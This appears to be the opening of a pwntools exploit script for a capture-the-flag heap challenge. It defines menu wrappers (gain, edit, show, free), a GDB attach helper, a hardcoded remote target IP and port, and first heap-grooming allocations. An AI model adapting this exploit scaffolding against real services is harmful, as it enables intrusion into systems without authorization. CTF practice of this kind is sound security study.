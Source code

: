 ```
#! /usr/bin/python2
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf_path = "./pwn"
elf = ELF(elf_path)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    cmd = ['/home/chenhaohao/pwn']
    sh = process(cmd)
    proc_base = sh.libs()['/home/chenhaohao/pwn']
else:                        #remtoe
    sh = remote('39.105.134.183', 18866)

def GDB():
    gdb.attach(sh, '''
    break *(0x401A21)
    break *0x401a6d 
    ''')

def Bits2Str(cont):
    res = ''
    for i in range(0, len(cont), 8):
        res+=chr(int(cont[i: i+8][::-1], 2))
    return res[::-1]

def Num(n):
    sh.sendline(str(n))

def Cmd(c):
    sh.recvuntil('&gt;&gt; ')
    sh.sendline(c)

def Gain(idx, sz, cont):
    Cmd('gain(%d);'%(idx))
    sh.recvuntil(': ')
    Num(sz)
    sh.recvuntil(': ')
    sh.send(cont)

def Edit(idx, cont):
    Cmd('edit(%d);'%(idx))
    sh.recvuntil(': ')
    sh.send(cont)

def Show(idx):
    Cmd('show(%d);'%(idx))

def Free(idx):
    Cmd('free(%d);'%(idx))

#exhaust mmap_mem
Gain(0, 0xFC0, 'A\n')
Gain(1, 0x10, 'B'*0x10)
```